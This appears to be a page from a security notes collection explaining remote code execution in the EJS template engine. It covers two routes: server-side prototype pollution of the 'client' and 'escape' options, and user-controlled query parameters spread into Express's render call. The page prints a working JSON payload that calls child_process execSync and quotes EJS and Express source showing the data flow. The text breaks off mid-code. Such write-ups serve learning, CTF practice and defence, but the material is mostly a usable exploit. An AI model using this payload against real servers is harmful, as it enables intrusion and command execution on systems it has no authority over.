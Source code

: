```js

        if (opts.client) {
            src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
        }
        // ...
        // src is evaluated later
    }
}
```

{{< details "EJS RCE - Proof of Concept" >}}
There are two options for controlling these variables.

1. Abuse server-side prototype pollution (SSPP)
2. Custom parameters to the render function of EJS

#### 1. SSPP

> Full article on [mizu.re](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce).

**TL;DR:**

```json
{
    "__proto__": {
        "client": 1,
        "escape": "1;return process.mainModule.require('child_process').execSync('id');"
    }
}
```

#### 2. Custom parameters of render

> Inspired from the challenge *Peculiar Caterpillar* of the [FCSC2023](https://france-cybersecurity-challenge.fr).

`req.query` will be equal to the `options` parameter passed to the `render` function of `Express`.

```js
require("express")()
.set("view engine", "ejs")
.use((req, res) => {
    res.render("index", { ...req.query })
})
.listen(3000);
```

The `render` function of `Express` calls the `renderFile` function of EJS.

- `render` => `renderFile` => `...` => `Template.new` => `Template.compile`

Here is the code of the `renderFile` function of EJS:

```js
var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];

// ...
exports.renderFile = function () {
    var args = Array.prototype.slice.call(arguments);
    var filename = args.shift();        // arg[0] = PATH of the template
    var opts = {filename: filename};

    // ...
    data = args.shift();                // arg[1] = {
                                        //    "settings": env, view engine, etag, ...,
                                        //    query string,
                                        //    "cache": false
```
